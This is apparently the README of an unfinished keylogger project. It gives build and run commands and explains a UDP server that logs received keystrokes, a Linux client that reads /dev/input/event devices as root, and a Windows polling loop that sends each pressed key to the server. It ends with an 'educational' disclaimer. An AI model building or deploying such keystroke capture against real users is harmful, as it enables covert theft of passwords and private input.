 
<h1 align="center">
  KEYLOGGER
  <br>
  <img src="images/keylogger.png" alt="Key loger Logo" width="256">
  <br>
</h1>

# Not finished

<div align="center">
 <h2>BUILD</H2>
</div>

```
make server
make linux_client
make windows_client
```

<div align="center">
 <h2>RUN</H2>
</div>

For run server :
```
./server
```
For run linux_client:
```
sudo ./client
```

<div align="center">
 <h2>EXPLAIN</H2>
 <br>
  
 </br>
</div>

<h4>
SERVER :
  <div align="center">
    <img src="images/server.png" alt="Server explain">
  </div>
</h4>
The server porgram uses the UDP protocol (without connected mode).
When the program receives a data, it will write it in IP.log.
<br>
<br>
<i>The server can only run on linux machines</i>

<h4>
LINUX CLIENT :
<div align="center">
    <img src="images/linux_client.png" alt="Linux client explain">
  </div>
</h4>

<h5>
  Program operation :
</h5>

This program reads the contents of the `file/dev/input/event*([0-9])`
which is in the form of a struct :
```c
struct input_event{
  struct timeval time;
  unsigned short type;
  unsigned short code;
  unsigned int value;
};
```
we retrieve the code which will then be converted into a real 
keyboard touch. We send the key to the server with the udp protocol.

<h5>
  SIGNAL :
</h5>
The SIGINT(ctl + c) signal is redirected for a clean stop of the program.

<h5>
  Why /dev/input/event ?
</h5>

The /dev directory contains all files for all devices.<br />
So we go to input directory to have all the input files.
You can do this commande `cat /proc/bus/input/devices` to have
all the possible entries with their name and to see the correct event file. In my case it is the /dev/input/event0 file.

<h4>
WINDOWS CLIENT :
  <div align="center">
    <img src="images/windows_client.png" alt="Windows client explain">
  </div>
</h4>

The porgramme works with an infinite loop.
In this loop we find a for loop which will test for each key if it pressed. If this is the acse it is translated and sent to the server.
```C
while (1)
        for (DWORD i = 0; i < 255; i++)
            if (GetAsyncKeyState(i) == -32767)
                send_message(client, serv, translate_key(i));
```

<h5>
  translate :
</h5>



<div align="center">
 <h2>DISCLAILER</H2>
</div>

I made an educational program to see how this kind of program works on linux and windows machines. 
I am not responsible for the use that can be made of it.


<br>
<br>

If you have any suggestions for improvement, I am always interested